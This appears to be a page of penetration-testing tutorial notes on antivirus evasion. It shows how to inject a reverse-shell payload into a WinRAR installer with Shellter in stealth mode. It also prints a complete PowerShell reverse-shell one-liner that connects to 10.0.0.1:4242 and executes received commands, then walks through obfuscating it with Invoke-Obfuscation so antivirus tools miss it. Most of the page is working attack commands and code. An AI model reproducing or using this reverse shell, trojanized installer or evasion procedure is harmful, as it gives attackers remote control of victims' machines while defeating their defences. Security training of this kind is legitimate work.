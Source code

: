 **In-memory evasion techniques**

* Focuses on manipulation of memory and does not write files to disk.
* Injects payload into a process by leveraging various Windows APIs.
* Payload is then executed in memory in a separate thread.

Shellter is a dynamic injection tool : https://www.shellterproject.com/

```bash
kali@kali> sudo apt-get install shellter -y
kali@kali> sudo dpkg --add-architecture i386
kali@kali> sudo apt-get install wine32 -y
kali@kali> shellter

shellter> A                                  # operation mode
shellter> /home/kali/tmp/winrar-x32-622.exe  # source file
shellter> Y                                  # enable stealth mode?
shellter> L                                  # listed payload or custom?
shellter> 1                                  # select payload by index
shellter> 192.168.81.62                      # set LHOST
shellter> 1234                               # set LPORT
```

#### Obfuscating PowerShell code

As a penetration tester, you will find yourself working with PowerShell code frequently. Most AV solutions will immediatly flag malicious PowerShell code, as a result, you must be able to obfuscate/encode your PowerShell code and scripts in order to avoir detection.

Invoke-Obfuscation is an open source PowerShell v2.0+ compatible PowerShell command and script obfuscator (https://github.com/danielbohannon/Invoke-Obfuscation).

```bash
kali@kali> vi shell.ps1
```

Copy/paste the code in the file `shell.ps1`.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then close.

```powershell
kali@kali> pwsh  # start PowerShell

PS> git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
PS> cd Invoke-Obfuscation                  # go in to git repository
PS> Import-Module Invoke-Obfuscation.psd1  # import into PowerShell
PS> Invoke-Obfuscation                     # start tool

Invoke-Obfuscation> set scriptpath /home/kali/tmp/shell.ps1
Invoke-Obfuscation> encoding    # encode code
Invoke-Obfuscation\Encoding> 1  # ASCII encoding
Invoke-Obfuscation\Encoding> back

Invoke-Obfuscation> ast         # obfuscate code
Invoke-Obfuscation\AST> all     # pick all choices
Invoke-Obfuscation\AST\ALL> 1   # execute all AST obfuscation techniques
```
